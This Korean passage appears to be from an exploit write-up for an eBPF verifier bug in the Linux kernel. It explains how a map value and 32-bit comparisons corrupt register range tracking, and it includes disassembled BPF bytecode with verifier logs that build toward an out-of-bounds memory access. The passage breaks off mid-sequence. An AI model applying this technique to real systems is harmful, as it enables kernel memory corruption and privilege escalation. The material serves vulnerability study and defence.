 이를 이용하려면 레지스터의 제약조건을 맞춰주면 된다.

- 실제 값이 2
- range = [1, 2**32 + 1 == 1]
- 32비트 비교 연산

여기서 실제 값을 세팅하려고 `BPF_MOV64_REG(BPF_REG_0, 2)` 이런식으로 세팅하게 되면 range는 `[2, 2]`가 되어버린다. 이를 우회하기 위해 map을 만들고 메모리를 바꾸고, 바뀐 메모리를 불러 검사하는 과정으로 진행한다. oob를 위한 range가 변조 된 r6 준비

```jsx
// 할당된 메모리 주소
0: (18) r9 = 0xffff8880060cc000
2: (bf) r1 = r9
3: (bf) r2 = r10
4: (07) r2 += -4
5: (62) *(u32 *)(r10 -4) = 0
6: (85) call bpf_map_lookup_elem#1
7: (55) if r0 != 0x0 goto pc+1
 R0_w=inv0 R9_w=map_ptr(id=0,off=0,ks=4,vs=8,imm=0) R10=fp0 fp-8=mmmm????
8: (95) exit

// memory 내 값을 변조
// update_elem(0, 2); <= 읽을 메모리
// update_elem(1, 0);

// memory 읽기
from 7 to 9: R0=map_value(id=0,off=0,ks=4,vs=8,imm=0) R9=map_ptr(id=0,off=0,ks=4,vs=8,imm=0) R10=fp0 fp-8=mmmm????
9: (79) r6 = *(u64 *)(r0 +0)
 R0=map_value(id=0,off=0,ks=4,vs=8,imm=0) R9=map_ptr(id=0,off=0,ks=4,vs=8,imm=0) R10=fp0 fp-8=mmmm????
10: (b7) r0 = 0
// 읽은 값 비교 (min)
11: (35) if r6 >= 0x1 goto pc+1
 R0_w=inv0 R6_w=inv0 R9=map_ptr(id=0,off=0,ks=4,vs=8,imm=0) R10=fp0 fp-8=mmmm????
12: (95) exit

// 읽은 값 비교 (max) 
from 11 to 13: R0_w=inv0 R6_w=inv(id=0,umin_value=1) R9=map_ptr(id=0,off=0,ks=4,vs=8,imm=0) R10=fp0 fp-8=mmmm????
13: (18) r7 = 0x100000001
15: (bd) if r6 <= r7 goto pc+1
 R0_w=inv0 R6_w=inv(id=0,umin_value=4294967298) R7_w=inv4294967297 R9=map_ptr(id=0,off=0,ks=4,vs=8,imm=0) R10=fp0 fp-8=mmmm????
16: (95) exit

// jmp32 oob (r6 range = [1, 1])
from 15 to 17: R0_w=inv0 R6_w=inv(id=0,umin_value=1,umax_value=4294967297,var_off=(0x0; 0x1ffffffff)) R7_w=inv4294967297 R9=map_ptr(id=0,off=0,ks=4,vs=8,imm=0) R10=fp0 fp-8=mmmm????
17: (56) if w6 != 0x5 goto pc+1
 R0_w=inv0 R6_w=inv(id=0,umin_value=5,umax_value=4294967297,var_off=(0x5; 0x100000000)) R7_w=inv4294967297 R9=map_ptr(id=0,off=0,ks=4,vs=8,imm=0) R10=fp0 fp-8=mmmm????
18: (95) exit

// 실제 r6 = 2 연산후 r2는 (r6&2) >> 1 == 1. 하지만 위에서 range를 [1, 1]로 인식해서 (1&2) >> 1
from 17 to 19: R0=inv0 R6=inv(id=0,umin_value=1,umax_value=4294967297,var_off=(0x1; 0x100000000)) R7=inv4294967297 R9=map_ptr(id=0,off=0,ks=4,vs=8,imm=0) R10=fp0 fp-8=mmmm????
19: (57) r6 &= 2
20: (77) r6 >>= 1
21: (bf) r1 = r9
22: (bf) r2 = r10
23: (07) r2 += -4
24: (62) *(u32 *)(r10 -4) = 1
25: (85) call bpf_map_lookup_elem#1
26: (55) if r0 != 0x0 goto pc+1
```